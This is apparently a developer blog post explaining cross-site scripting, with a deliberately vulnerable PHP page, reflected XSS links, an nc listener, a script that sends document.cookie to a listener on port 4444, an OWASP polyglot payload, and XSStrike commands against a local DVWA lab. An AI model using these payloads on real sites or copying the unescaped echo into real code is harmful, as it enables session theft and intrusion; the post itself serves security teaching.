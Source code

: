 ```yaml
---
layout: post
title: Cross-Site Scripting (XSS)
date: 2024-11-13 22:49 +0530
author: "Gaurav Kumar"
tags: "browser theory security"
categories: "clean_code"
---
```


Type of injection attack where malicious scripts are injected in trusted websites, and executed by the visitor's browser.

Let us see a sample to understand a XSS security issue:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Simple XSS Demo</title>
  </head>
  <body>
    <h1>Simple XSS Example</h1>
    <form method="GET" action="">
      <label for="name">Enter your name:</label>
      <input type="text" id="name" name="name" />
      <button type="submit">Submit</button>
    </form>

    <p>
      Hello,
      <span id="output">
        <!-- This is where the vulnerability lies -->
        <?php echo $_GET['name']; ?> </span
      >!
    </p>
  </body>
</html>
```

This code is vulnerable to Cross-Site Scripting (XSS) because it directly inserts user input into the page without checking or cleaning it. When a user submits their name via the form, the name is shown on the page using PHP like this:

```php
<?php echo $_GET['name']; ?>
```

If a user enters a malicious script (For example: `<script>alert('XSS');</script>`), it will be executed in the browser. This could allow attackers to steal cookies, redirect users, or perform other harmful actions.

A good way to practically learn about these attacks, we can make use of the following "insecure" containerized apps:

[DAMN VULNERABLE WEB APPLICATION](https://github.com/digininja/DVWA?tab=readme-ov-file#damn-vulnerable-web-application)

`docker run --rm -it -p 80:80 --name vulnerable vulnerables/web-dvwa`

[OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)

`docker run --rm -p 3000:3000 --name juice-shop bkimminich/juice-shop`

## REFLECTED CSS

This scenario is similar to the previous example, where an attacker can inject and execute JavaScript in a user's browser, taking advantage of client-side vulnerabilities.

For example, a hacker could create a malicious shortened URL like [http://somewebsite/xss_r/?name=%3Cscript%3Ealert%28%22XSS%21%21%21%22%29%3C%2Fscript%3E#](http://somewebsite/xss_r/?name=%3Cscript%3Ealert%28%22XSS%21%21%21%22%29%3C%2Fscript%3E#). If a victim clicks on this link, it will execute the JavaScript on their machine. This can potentially allow the attacker to steal sensitive information, such as cookies, session data, or personal details, by exploiting the vulnerabilities in the user's browser.

![snapshot]({{ site.baseurl }}/assets/img/security/xss-reflected.png)

Here's a way through which a hacker can potentially steal your cookies which may contain sensitive information. To demonstrate it, I will run a test server using `nc`.

Command:
`nc -lvp 4444`  
Listens on port 4444 for incoming connections in verbose mode.

Using this payload, we can send the webpage's cookies to a server on 127.0.0.1:4444 by creating an image request with the document.cookie as a query string. The server will capture and log the cookies, which may include sensitive information like authentication tokens or session data.

```js
<script>
  new Image().src="http://127.0.0.1:4444?output="+document.cookie;
</script>
```

![snapshot]({{ site.baseurl }}/assets/img/security/xss-reflected-cookie.png)

> `TIP`: The following site has a "cheat-sheet" for OWASP payloads and strategies that can be used to test vulnerability: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-locator-polyglot](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-locator-polyglot)

> `XSS Locator (Polyglot)`
> This test delivers a 'polyglot test XSS payload' that executes in multiple contexts, including HTML, script strings, JavaScript, and URLs:
> javascript:/_--></title></style></textarea></script></xmp>
> <svg/onload='+/"`/+/onmouseover=1/+/[_/[]/+alert(42);//'>

There are certain tools which can help in detecting such vulnerabilities, such as: [XSStrike](https://github.com/s0md3v/XSStrike) and [XSSer](https://github.com/epsylon/xsser).

### Using XSStrike

- Clone the repo and run `python xsstrike.py`
- Get the PHPSESSIONID Cookie value (We can use `document.cookie` method) for the website
- From the terminal, run the following command after updating it with your header values:

```bash
python xsstrike.py -u http://localhost/vulnerabilities/xss_r/?name=query --headers "Cookie: security=high; PHPSESSID=xxxxxxxxxxxxxx" --skip-dom
```

![snapshot]({{ site.baseurl }}/assets/img/security/xss-reflected-xsstrike.png)
